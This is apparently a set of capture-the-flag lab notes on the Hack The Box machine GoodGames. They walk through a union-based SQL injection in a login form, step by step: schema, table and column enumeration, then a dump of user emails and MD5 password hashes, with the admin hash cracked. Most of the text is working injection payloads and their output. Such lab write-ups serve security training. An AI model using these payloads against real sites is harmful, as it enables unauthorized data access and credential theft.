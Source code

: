 we need to have match the number of columns when we try injection, so we start with 
```html
<h2 class="h4">Welcome main</h2>
```


### Check all schemes
#### email=' union all select 1,2,3, concat(schema_name,':') from information_schema.schemata-- -&password=tofu
need to put concat for field padding, schema name is main?
```html
<h2 class="h4">Welcome information_schema:main:</h2>
```

### Check all tables
#### email=' union all select 1,2,3, concat(table_name,':') from information_schema.tables where table_schema = 'main'-- -&password=tofu

```html
<h2 class="h4">Welcome blog:blog_comments:user:</h2>
```

### Get column name
#### email=' union all select 1,2,3, concat(column_name,':') from information_schema.columns where table_name = 'user'-- -&password=tofu
```html
<h2 class="h4">Welcome id:email:password:name:</h2>
```

### Get user items
#### email=' union all select 1,2,3, concat(id,':',email,':',password,':',name,':') from user-- -&password=tofu

```html
<h2 class="h4">Welcome 1:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec:admin:2:toh@gmail.com:eaee0cdd2c82e89f15078ff33ca37e46:toh:3:t@gmail.com:5df7f1701b778d03d57456afea567922:tofu:</h2>
```

### Admin password
```
1:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec:admin
```

### Crack hash
https://crackstation.net/
it is md5 and the result is superadministrator'

## Login as admin

![[Pasted image 20230222144047.png]]

